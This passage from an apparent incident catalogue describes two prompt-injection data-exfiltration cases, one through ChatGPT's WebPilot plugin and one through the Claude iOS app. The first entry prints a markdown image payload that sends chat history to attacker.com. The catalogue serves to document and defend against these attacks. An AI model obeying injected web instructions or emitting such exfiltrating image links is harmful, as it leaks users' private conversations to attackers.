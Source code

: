 **Attack Vector:**
- WebPilot plugin fetches web content for ChatGPT to analyze
- Attacker embeds markdown image injection in webpage HTML
- ChatGPT processes webpage, executes hidden prompt, renders malicious markdown
- Data exfiltrated via image URLs

**Technical Exploitation:**
- **Plugin Abuse:** WebPilot retrieves untrusted web content
- **Markdown Injection:** Hidden `![](https://attacker.com/leak?data=chat-history)` in HTML
- **Zero-Click Rendering:** Browser auto-loads image, sending data to attacker

**Data Leaked:**
- Chat history
- Plugin access data

**User Base:** ChatGPT users with WebPilot plugin enabled

**Financial Cost:** Not disclosed

**Outcome:**
- **Reported:** Johann Rehberger disclosed vulnerability
- **Status:** Likely mitigated (WebPilot deprecated in favor of native browsing)

**Source:**
- https://embracethered.com/blog/posts/2023/chatgpt-webpilot-data-exfil-via-markdown-injection/

---

### 9. Anthropic Claude iOS App Image URL Rendering (2024)
**System:** Anthropic Claude iOS App
**Date:** 2024
**CVE Number:** Not assigned

**Attack Vector:**
- Markdown image syntax exploitable in Claude iOS app
- Prompt injection triggers image tag rendering with exfiltration URLs
- Similar to web-based attacks but affecting mobile platform

**Technical Exploitation:**
- **Mobile Markdown Rendering:** iOS app renders markdown images automatically
- **Prompt Injection:** Malicious instructions cause Claude to output `![](attacker-url)`
- **Data Exfiltration:** iOS browser engine fetches image, leaking data in URL

**Data Leaked:**
- Chat history
- User data stored in app

**Platform:** Claude iOS app

**Financial Cost:** Not disclosed

**Outcome:**
- **Status:** Likely mitigated (common vulnerability pattern addressed across platforms)

**Source:**
- Simon Willison's exfiltration-attacks tag compilation

---
